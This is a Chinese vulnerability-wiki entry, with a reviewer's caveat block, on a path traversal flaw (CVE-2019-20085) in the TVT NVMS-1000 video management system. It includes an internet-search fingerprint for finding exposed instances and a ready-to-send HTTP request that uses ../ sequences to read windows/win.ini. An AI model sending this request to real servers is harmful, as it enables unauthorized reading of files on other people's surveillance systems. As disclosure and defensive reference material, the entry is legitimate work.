

# TVT数码科技 NVMS-1000 路径遍历漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：TVT NVMS-1000 Windows视频管理
- 本文讨论：URL ../路径穿越，关联CVE-2019-20085
- 版本、权限与配置前提：原始未规范化路径、Windows；未给软件版本
- 资料类型：路径读取PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 缺CVE/具体build/固定版本；需说明客户端保留原始../路径
- 任意文件受服务账户读取权限限制
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 版本和无认证配置、路径解析待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件

## 漏洞影响

```
TVT NVMS-1000
```

## 网络测绘

```
app="TVT-NVMS-1000"
```

## 漏洞复现

登录页面如下


发送请求包读取文件

```http
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
